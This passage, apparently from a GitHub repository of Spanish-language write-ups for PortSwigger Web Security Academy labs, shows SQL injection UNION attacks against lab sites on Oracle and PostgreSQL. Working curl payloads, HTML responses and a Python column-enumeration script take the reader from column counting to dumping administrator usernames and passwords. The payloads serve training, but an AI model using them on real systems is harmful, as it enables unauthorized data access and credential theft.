The first ever overhead lines are in place. Your children will be safe 100 ft above the ground. High enough not to meet with any oncoming vehicles, and low enough not to get in the way of any potentially low flying aircraft. All children will be escorted on their first day of use, they will be orientated in the use of digital map guidance, and taken through the techniques required to reach their destination without any mishaps along the way.
In order to use this service, you are required to register your child with us, pay a fee renewable annually, and to sign a disclaimer taking full responsibility for your child. Please feel free to contact us with any further questions or to order the subscription package.</td>
                        </tr>
                        <tr>
                        </tr>
                        </tbody>
                    </table>
                </div>
            </section>
            <div class="footer-wrapper">
            </div>
        </div>
    </body>
</html>
```

2.-Confirmar en que columna tenemos retorno de informacion

```ini
curl -s "https://0a1300a904f3805980ec08d0001a00df.web-security-academy.net/filter?category=Lifestyle%27union%20select%20'abc',null%20from%20dual%20--" | grep -q 'abc' && echo "Enla columnauno hay retorno de informacion" || echo "no hay retorno de informacion"
Enla columnauno hay retorno de informacion
```

3.-Confirmacion de retorno en la segunda columna

```ini
curl -s "https://0a1300a904f3805980ec08d0001a00df.web-security-academy.net/filter?category=Lifestyle%27union%20select%20null,'abc'%20from%20dual%20--" | grep -q 'abc' && echo "En la segunda columna hay retorno de informacion" || echo "no hay retorno de informacion"
En la segunda columna hay retorno de informacion
```
4.-Enumeracion de bases de datos

```ini
 curl -s "https://0a1300a904f3805980ec08d0001a00df.web-security-academy.net/filter?category=Lifestyle%27union%20select%20null,username%20from%20all_users%20--"
<!DOCTYPE html>
<html>
<!--LAB_HEAD_START-->
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsEcommerce.css rel=stylesheet>
        <title>SQL injection attack, listing the database contents on Oracle</title>
    </head>
<!--LAB_HEAD_END-->
    <body>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <!--LAB_HEADER_START-->
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
                <div class=container>
                    <div class=logo></div>
                        <div class=title-container>
                            <h2>SQL injection attack, listing the database contents on Oracle</h2>
                            <a id='lab-link' class='button' href='/'>Back to lab home</a>
                            <a class=link-back href='https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle'>
                                Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
                                <svg version=1.1 id=Layer_1 xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' x=0px y=0px viewBox='0 0 28 30' enable-background='new 0 0 28 30' xml:space=preserve title=back-arrow>
                                    <g>
                                        <polygon points='1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15'></polygon>
                                        <polygon points='14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15'></polygon>
                                    </g>
                                </svg>
                            </a>
                        </div>
                        <div class='widgetcontainer-lab-status is-notsolved'>
                            <span>LAB</span>
                            <p>Not solved</p>
                            <span class=lab-status-icon></span>
                        </div>
                    </div>
                </div>
            </section>
        </div>
        <!--LAB_HEADER_END-->
        <div theme="ecommerce">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href=/>Home</a><p>|</p>
                            <a href="/my-account">My account</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <section class="ecoms-pageheader">
                        
                    </section>
                    <section class="ecoms-pageheader">
                        <h1>Lifestyle&apos;union select null,username from all_users --</h1>
                    </section>
                    <section class="search-filters">
                        <label>Refine your search:</label>
                        <a class="filter-category" href="/">All</a>
                        <a class="filter-category" href="/filter?category=Corporate+gifts">Corporate gifts</a>
                        <a class="filter-category" href="/filter?category=Food+%26+Drink">Food & Drink</a>
                        <a class="filter-category" href="/filter?category=Lifestyle">Lifestyle</a>
                        <a class="filter-category" href="/filter?category=Pets">Pets</a>
                        <a class="filter-category" href="/filter?category=Toys+%26+Games">Toys & Games</a>
                    </section>
                    <table class="is-table-longdescription">
                        <tbody>
                        <tr>
                            <th>Balance Beams</th>
                            <td>If you&apos;ve ever been stuck in a traffic jam I expect you&apos;ve been jealous to look up and see those brave youngsters doing their freerunning and parkour overhead. No waiting around for them, always first to the office on a bad traffic day.
With our innovative Balance Beams, you can now escape the daily rat race and head up there with the rest of them. No need to spend months in training and age is not a barrier with these handy foldaway planks of wood. Just head up to the roof of your building, unfold them to the length of the space you need to traverse and off you go.
Fully adjustable you will be able to travel a distance of up to 20 meters. The complete kit comes with a handy foldaway parachute for those extra windy days, and a neat little canvas bag for when they&apos;re not in use. Each plank is treated with a special non-slip coating to give extra strength and durability. We do recommend not wearing flip-flops or any other open-toe shoes while in use.
Be the adventurer you&apos;ve always wanted to be, but do it safely. T&amp;C&apos;s apply, third-party insurance recommended, use at the owners own risk.</td>
                        </tr>
                        <tr>
                            <th>Hitch A Lift</th>
                            <td>There was a time when we all thought by car sharing we were helping to save our planet. Even this is an outdated convention, and things have rapidly moved on. We would like to reduce the number of cars on the road even further, aiming one day for it to be none at all.
This is where we come in, our new &apos;Hitch A Lift&apos; harness is the future of commuting, improving life on earth, and boosting our own health and fitness in the process. Just strap on a buddy and use what God gave you to get yourselves to work.
One of you might be stronger than the other, but you can still take it in turns as our harness can be attached, and unattached, in seconds. There is a maximum recommended weight of 224 lbs so choose your hitch buddy wisely.
It is important that the weaker of the two get some practice in, you don&apos;t want to lose muscle power by not using those legs and upper body strength for long periods of time. Say goodbye to traffic jams and pollution, hitch up with a buddy today.</td>
                        </tr>
                        <tr>
                            <th>Inflatable Holiday Home</th>
                            <td>Forget your oversized Winnebagos, no need for trailers or tents either, welcome to the first ever inflatable holiday home.
What a genius idea. Inflates in 30 minutes and you&apos;re in. Folds down to the size of a large suitcase, so plenty of room in your vehicle for all those interior home comforts. Best of all is the size, it is the size of a regular house. No need for bunks, plenty of room to stretch your legs, and enjoy a real home away from home.
All furniture, beds, the couch etc. are fully integrated. When the house goes up so do they. The kids will never get bored as they bounce all over the house, and fall asleep in their roomy beds.
Traveling abroad couldn&apos;t be easier, you no longer need to drive your mobile home, you can now fly with one of these beauts in a suitcase. The world is your Oyster, take a month off and explore our great lands. If you purchase one today you will also get two extra puncture repair kits for free, ensuring peace of mind throughout your journey. Get ahead of all your friends, and enjoy the enviable looks along the way.</td>
                        </tr>
                        <tr>
                            <th>Safety First</th>
                            <td>Here at Safety First, we have a dedicated team who work tirelessly to allay your fears and keep your loved ones free from harm.
One of the biggest concerns we hear about is road safety and children. Once they start taking themselves to and from school the parents can&apos;t settle for fear they might meet with a road traffic accident. We have spent the last ten years addressing this issue, and now we have the infrastructure in place for this never to be a concern again.
The first ever overhead lines are in place. Your children will be safe 100 ft above the ground. High enough not to meet with any oncoming vehicles, and low enough not to get in the way of any potentially low flying aircraft. All children will be escorted on their first day of use, they will be orientated in the use of digital map guidance, and taken through the techniques required to reach their destination without any mishaps along the way.
In order to use this service, you are required to register your child with us, pay a fee renewable annually, and to sign a disclaimer taking full responsibility for your child. Please feel free to contact us with any further questions or to order the subscription package.</td>
                        </tr>
                        <tr>
                            <td>ANONYMOUS</td>
                        </tr>
                        <tr>
                            <td>APEX_040000</td>
                        </tr>
                        <tr>
                            <td>APEX_PUBLIC_USER</td>
                        </tr>
                        <tr>
                            <td>CTXSYS</td>
                        </tr>
                        <tr>
                            <td>FLOWS_FILES</td>
                        </tr>
                        <tr>
                            <td>HR</td>
                        </tr>
                        <tr>
                            <td>MDSYS</td>
                        </tr>
                        <tr>
                            <td>OUTLN</td>
                        </tr>
                        <tr>
                            <td>PETER</td>
                        </tr>
                        <tr>
                            <td>SYS</td>
                        </tr>
                        <tr>
                            <td>SYSTEM</td>
                        </tr>
                        <tr>
                            <td>XDB</td>
                        </tr>
                        <tr>
                            <td>XS$NULL</td>
                        </tr>
                        </tbody>
                    </table>
                </div>
            </section>
            <div class="footer-wrapper">
            </div>
        </div>
    </body>
</html>
```
5.-Confirmamos la existencia del esquema enumerado.

```ini
curl -s "https://0a1300a904f3805980ec08d0001a00df.web-security-academy.net/filter?category=Lifestyle%27union%20select%20null,user%20from%20dual%20--"
```
y obtenemos el mismo esquema **PETER**

6.-Extraemos las tablas del esquema.

```ini
curl -s "https://0a1300a904f3805980ec08d0001a00df.web-security-academy.net/filter?category=Lifestyle%27union%20select%20null,table_name%20from%20all_tables%20where%20owner='PETER'%20--"
```
```html
                        <tr>
                            <td>PRODUCTS</td>
                        </tr>
                        <tr>
                            <td>USERS_ZCTNRS</td>
                        </tr>
```
7.-Extraemos las columnas de la tabla

```ini
curl -s "https://0a1300a904f3805980ec08d0001a00df.web-security-academy.net/filter?category=Lifestyle%27union%20select%20null,column_name%20from%20all_tab_columns%20where%20table_name='USERS_ZCTNRS'%20AND%20owner='PETER'%20--"
```
```html
 <tr>
                            <td>EMAIL</td>
                        </tr>
                        <tr>
                            <td>PASSWORD_GIMMFO</td>
                        </tr>
                        <tr>
                            <td>USERNAME_BWMJLN</td>
                        </tr>
```
8.-Extraemos informacion para loggearnos como administradores.

```ini
curl -s "https://0a1300a904f3805980ec08d0001a00df.web-security-academy.net/filter?category=Lifestyle%27union%20select%20USERNAME_BWMJLN,PASSWORD_GIMMFO%20from%20USERS_ZCTNRS%20--"
```
```html
 <tr>
             <th>administrator</th>
            <td>z6ksprkm2bpytbf7ezpj</td>
            </tr>
            <tr>
             <th>carlos</th>
             <td>ofak5uvqlc2hwzh2wk41</td>
             </tr>
            <tr>
            <th>wiener</th>
            <td>r9nwlaixqk9bc14efpgp</td>
            </tr>

```



<p align="center">

 **Laboratorio:**  SQL Injection (UNION Attack) - Lab #7 <br>
 **Platforma:**  PortSwigger Web Security Academy 
</p>

### Solucion

1.-Enumeramos las columnas.
```ini
curl -s "https://0a1900830374659b80121c8900ed00f1.web-security-academy.net/filter?category=Pets%27Order%20by%204%20--" | grep -q "Internal Server Error" && echo "Numero de columnas inexsistente" || echo "Numero de columnas exsistentes"
Numero de columnas inexsistente
```
```ini
curl -s "https://0a1900830374659b80121c8900ed00f1.web-security-academy.net/filter?category=Pets%27Order%20by%203%20--" | grep -q "Internal Server Error" && echo "Numero de columnas inexsistente" || echo "Numero de columnas exsistentes"
Numero de columnas exsistentes
```

2.-Confirmamos el numero de columnas que obtuvimos.

```ini
 curl -s "https://0a1900830374659b80121c8900ed00f1.web-security-academy.net/filter?category=Pets%27union%20select%20null,null,null%20--"
```



<p align="center">

 **Laboratorio:**  SQL Injection (UNION Attack) - Lab #8 <br>
 **Platforma:**  PortSwigger Web Security Academy 
</p>

### Solucion

1.-Enumerar columnas.

```ini
curl -s "https://0af800da04f2919180ce3f8700bc0039.web-security-academy.net/filter?category=Tech+gifts%27Order%20by%203%20--" | grep -q "Internal Server Error" && echo "Numero de columnas inexistente" || echo "Numero de columnas existente"
Numero de columnas existente

```

2.-Verificar en que columna hay respuesta. 

```ini
curl -s "https://0af800da04f2919180ce3f8700bc0039.web-security-academy.net/filter?category=Tech+gifts%27union%20select%20'abc',null,null%20--" | grep -q "Internal Server Error" && echo "En esta columna no hay retorno" || echo "En esta columna hay retorno"
En esta columna no hay retorno

```

```ini
curl -s "https://0af800da04f2919180ce3f8700bc0039.web-security-academy.net/filter?category=Tech+gifts%27union%20select%20null,'abc',null%20--" | grep -q "Internal Server Error" && echo "En esta columna no hay retorno" || echo "En esta columna hay retorno"
En esta columna hay retorno

```

```ini
curl -s "https://0af800da04f2919180ce3f8700bc0039.web-security-academy.net/filter?category=Tech+gifts%27union%20select%20null,null,'abc'%20--" | grep -q "Internal Server Error" && echo "En esta columna no hay retorno" || echo "En esta columna hay retorno"
En esta columna no hay retorno
```

3.-Retornar el texto de la aplicacion.

```ini
curl -s "https://0af800da04f2919180ce3f8700bc0039.web-security-academy.net/filter?category=Tech+gifts%27union%20select%20null,'0LFq23',null%20--" | grep -q "Internal Server Error" && echo "En esta columna no hay retorno" || echo "En esta columna hay retorno"
En esta columna hay retorno

```

<p align="center">

 **Laboratorio:**  SQL Injection (UNION Attack) - Lab #9 <br>
 **Platforma:**  PortSwigger Web Security Academy 
</p>

### Solucion

1.-Enumerar las columnas.<br>

```ini
curl -s "https://web-security-academy.net/filter?category=Gifts%27Order%20by%202%20--" | grep -q "Internal Server Erorr" && echo "Numero de columnas inexistente" || echo "Numero de columnas existente" 
Numero de columnas existente
```

2.-Confirmamos el numero de columnas.<br>

```ini
curl -s "https://web-security-academy.net/filter?category=Gifts%27union%20select%20null,null%20--"
```
3.-Verificamos en que columna hay retorno de informacion.<br>

```ini
curl -s "https://0a6a009b03eee10180bc17c500070089.web-security-academy.net/filter?category=Gifts%27union%20select%20version(),null%20--" | grep -q "PostgreSql" && echo "En esta columna no hay retorno de informacion" || echo "En esta columna hay retorno de informacion"
En esta columna hay retorno de informacion
```
```ini
curl -s "https://0a6a009b03eee10180bc17c500070089.web-security-academy.net/filter?category=Gifts%27union%20select%20null,version()%20--" | grep -q "PostgreSql" && echo "En esta columna no hay retorno de informacion" || echo "En esta columna hay retorno de informacion"
En esta columna hay retorno de informacion
```

4.-Extraemos nombres de las bases de datos.<br>

```ini
curl -s "https://0a6a009b03eee10180bc17c500070089.web-security-academy.net/filter?category=Gifts%27union%20select%20null,schema_name%20from%20information_schema.schemata%20--"
```

```html
<tr>
                            <td>information_schema</td>
                        </tr>
                        <tr>
                            <td>public</td>
                        </tr>

```


5.-Extraemos nombres de tablas.<br>

```ini
curl -s "https://0a6a009b03eee10180bc17c500070089.web-security-academy.net/filter?category=Gifts%27union%20select%20table_name,null%20from%20information_schema.tables%20--"
```
Tabla enumerada:
**<th>users</th>**

6.-Extraemos nombres de columnas.<br>

```ini
curl -s "https://0a6a009b03eee10180bc17c500070089.web-security-academy.net/filter?category=Gifts%27union%20select%20column_name,null%20from%20information_schema.columns%20where%20table_name='users'%20--"
```
Columnas enumeradas:

** <th>username</th>**
** <th>password</th>**


7.-Extraemos los campos usuario contraseña.<br>

```ini
curl -s "https://0a6a009b03eee10180bc17c500070089.web-security-academy.net/filter?category=Gifts%27union%20select%20username,password%20from%20users%20--"

```

```html
 <tr>
                            <th>wiener</th>
                            <td>xt49724zxez3qbl2xuvv</td>
                        </tr>

                            <tr>
                            <th>administrator</th>
                            <td>5nfyluaaxxyz4cmpozf9</td>
                        </tr>

   <tr>
                            <th>carlos</th>
                            <td>xypdkw9elh9g1wiioblf</td>
                        </tr>


```



<p align="center">

 **Laboratorio:**  SQL Injection (UNION Attack) - Lab #10 <br>
 **Platforma:**  PortSwigger Web Security Academy 
</p>

### Solucion

Como el mismo problema nos indica que existe una tabla llamada users con columnas como username y password vamos a usar esta informacion directamente ya que el objetivo del problema es retornar esa informacion en una misma columna.

1.-Enumeracion ed columnas.

```ini
curl -s "https://0af0000a04c5c58181036839008900bb.web-security-academy.net/filter?category=Tech+gifts%27Order%20by%202%20--" | grep -q "Internal Server Error" && echo "Numero de columnas inexistente" || echo "Numero de columnas existente"
Numero de columnas existente
```

2.-Confirmar en que columna hay retorno de informacion.

```ini
curl -s "https://0af0000a04c5c58181036839008900bb.web-security-academy.net/filter?category=Tech+gifts%27union%20select%20'abc',null%20--" | grep -q "Internal Server Error" && echo "En esta columna no hay retorno de informacion" || echo "En esta columna hay retorno de informacion"
En esta columna no hay retorno de informacion
```

```ini
curl -s "https://0af0000a04c5c58181036839008900bb.web-security-academy.net/filter?category=Tech+gifts%27union%20select%20null,'abc'%20--" | grep -q "Internal Server Error" && echo "En esta columna no hay retorno de informacion" || echo "En esta columna hay retorno de informacion"
En esta columna hay retorno de informacion
```

3.-Extraccion de la informacion.

```ini
curl -s "https://0af0000a04c5c58181036839008900bb.web-security-academy.net/filter?category=Tech+gifts%27union%20select%20null,username||'==='||password%20from%20users%20--"
```

```html
<tr>
                            <th>administrator===u674jix192cab8jis38m</th>
                        </tr>
<tr>
                            <th>carlos===zvp997zp9uw7n47li57y</th>
                        </tr>
                        <tr>
                            <th>wiener===g5rehbrdye4otiybplmk</th>
                        </tr>
```



### Anexo Codigo python para enumerar columnas

```python
import requests
import time

inicio = 5
url = "https://0a2d00020459678581ea2529001400a5.web-security-academy.net/filter?category=Pets"
columnas = 0

try:
    while inicio > 0:
        determinarColumnas = f"'Order by {inicio} -- -"
        url_completa = url + determinarColumnas

        respuesta = requests.get(url_completa)
        inicio -= 1

        print("Codigo de respuesta:", respuesta.status_code)
        print("Url completa:", url_completa)

        if respuesta.status_code == 200:
            columnas += 1

            time.sleep(0.2)

            print("Numero de columnas:", columnas)
except requests.exceptions.RequestException as e:
    print("Ocurrio un error", e)

```